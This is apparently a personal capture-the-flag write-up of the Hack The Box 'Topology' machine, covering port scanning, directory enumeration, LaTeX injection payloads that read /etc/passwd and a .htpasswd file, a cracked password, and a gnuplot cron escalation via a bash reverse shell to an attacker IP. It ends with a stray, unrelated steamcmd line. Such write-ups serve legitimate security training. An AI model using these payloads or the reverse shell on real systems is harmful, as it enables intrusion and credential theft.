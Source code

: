 ```yaml
---
title: Topology - HTB - Notes
date: 2023-06-17 14:00:00 -500
categories: [HTB, write-ups, red-team]
tags: [htb,red-team,ctf]
---
```



# Nmap Results

Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 14:32 PDT
Nmap scan report for 10.10.11.217
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TLD: topology.htb

# Gobuster:
gobuster dir --url http://topology.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html

Path Traversal attack?: https://portswigger.net/web-security/file-path-traversal

Found: http://topology.htb/images/
![[Pasted image 20230611145021.png]]


interesting url: http://latex.topology.htb/equation.php
![[Pasted image 20230611145813.png]]


Interesting URL from the Latex Generator

```
http://latex.topology.htb/equation.php?eqn=%5Cfrac%7Bx%2B5%7D%7By-3%7D&submit=
```

![[Pasted image 20230611153638.png]]

![[Pasted image 20230611163846.png]]

pdfTeX, Version 3.14159265

Found the payload from here:
https://0day.work/hacking-with-latex/


The Following command will create files in /tempfiles
```
\newwrite\outfile, \openout\outfile=test2.php test
```
![[Pasted image 20230618144255.png]]
the , will concatenate commands allowing them to run

Were unable to write to any of the files so we went looking for alternative paths

Math mode is enabled = $ excapes the special chars

We found that the following command will display full text of files
`$\lstinputlisting{/etc/passwd}$ `

![[Pasted image 20230618155313.png]]
vdaisley - user /home/vdaisley

Since dev.topology is protected by a htaccess file, I checked the config for the default sites: /etc/apache2/sites-available/000-default.conf
![[Pasted image 20230618155910.png]]

The htaccess file was not being stored in /etc/apache2/.htaccess but instead was located in: /var/ww/dev/

![[Pasted image 20230618155953.png]]
`$\lstinputlisting{/var/www/dev/.htpasswd}$` 

Password was being stored in a Apache MD5 salt

Hashcat:
![[Pasted image 20230618161158.png]]
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20

un: vdaisley
pw: calculus20

Got access to the dev site, attempted SSH and we were in
![[Pasted image 20230618173325.png]]

Ended up finding the root.txt by running pspy65 and found a cron job that would run any file name with the .plt

- started a webserver in the tools dir: ~/tools
![[Pasted image 20230618171543.png]]

used wget to copy over and run pspy65:
![[Pasted image 20230618172326.png]]
![[Pasted image 20230618172427.png]]
Interesting command running on cron: ![[Pasted image 20230618172451.png]]

seems to want to run any file with the .plt extension from the dir: /opt/gnuplot
![[Pasted image 20230618172532.png]]

We have wright permissions: 
Create a .plt with this bash rev shell:
- had to include bash -c '/bin/bash to get it to run

```
system "bash -c '/bin/bash -i >& /dev/tcp/10.10.14.94/9001 0>&1'"
```

![[Pasted image 20230618172642.png]]

Fired up NetCat and waited
![[Pasted image 20230618173412.png]]

![[Pasted image 20230618173436.png]]
steamcmd +force_install_dir /home/valheim/valheim-server +login anonymous +app_update 896660 +quitcd 
